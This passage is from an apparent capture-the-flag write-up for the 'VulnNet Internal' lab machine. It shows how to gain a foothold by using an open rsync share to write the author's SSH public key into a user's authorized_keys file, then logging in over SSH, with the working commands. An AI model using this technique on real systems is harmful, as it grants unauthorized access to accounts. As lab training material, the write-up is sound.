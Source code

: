 ![screenshot25](../assets/images/vulnnet_internal/screenshot25.png)

While it currently does not contain any keys that we can use, one way we can gain a foothold into the machine is by using rsync to upload our own public key into an **'authorized_keys'** file within that directory! From there, our public key will be authorized on the target machine, and we will be able to use our private key to log into the user account via SSH.

Detailed steps on how to set this up can be found [here](https://kb.iu.edu/d/aews). 

```
// generate ssh key-pair
ssh-keygen -t rsa

// transfer our public key into an 'authorized_keys' file in the /.ssh folder of the 'sys-internal' user
rsync -av ~/.ssh/id_rsa.pub rsync://rsync-connect@10.10.102.151/files/sys-internal/.ssh/authorized_keys
```

Once this is done, we can log into the **sys-internal** user's account using our private key:

```
ssh sys-internal@10.10.102.151
```
